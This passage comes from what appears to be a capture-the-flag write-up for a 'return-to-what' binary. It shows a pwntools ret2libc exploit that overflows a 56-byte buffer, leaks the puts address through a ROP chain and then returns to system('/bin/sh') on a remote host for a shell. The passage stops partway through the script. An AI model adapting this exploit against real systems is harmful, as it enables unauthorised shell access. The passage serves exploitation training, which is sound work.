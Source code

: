 ```python
    # interact with process
    p.interactive() 


if __name__ == "__main__":
    main()

```

![LIBC-Base Address](https://raw.githubusercontent.com/pwndumb/pwndumb.github.io/master/assets/img/commons/return-to-what/libc-base-address.png)

# Final Exploit

Now we already know the base address of libc, we can calculate the address of `/bin/sh` and `system` inside the libc. This information will be used to pwn system.  
The second payload will be like the first, but now we not return to main. Instead we try to return to `system` with `/bin/sh` as parameter. 

```python
#!/usr/bin/env python3

from pwn import *

def main():

    # log level
    context.terminal = ["tmux", "splitw", "-v"]
    context.log_level = 'DEBUG'

    # setup process in pwntools
    context.arch = "amd64"
    elf=context.binary=ELF("./return-to-what")
    libc=ELF("./libc6_2.27-3ubuntu1.3_amd64.so")
    p=remote("192.168.0.22",1337)

    # The exploit will be two stages:
    # 1. The payload of stage 1 will leak address of
    # put and return to main function to execute the
    # program again.
    # 2. The second stage will send a buffer with rop chain that will
    # give us a shell.


    ############### Stage 1 Payload  #############################

    # The fisrt paylaod will create a rop that will leak put address
    # and return to main.  
    # padding + pop_rdi + puts_got + puts_plt + main_plt

    # trigger buffer overflow

    offset = 56
    padding = b"A" * offset


    # create rop chain

    # 0x000000000040122b : pop rdi ; ret

    puts_got = p64(elf.got["puts"])
    puts_plt = p64(elf.plt["puts"])
    main_plt = p64(elf.symbols["main"] + 1 ) # this plus one is for stack alignment

```
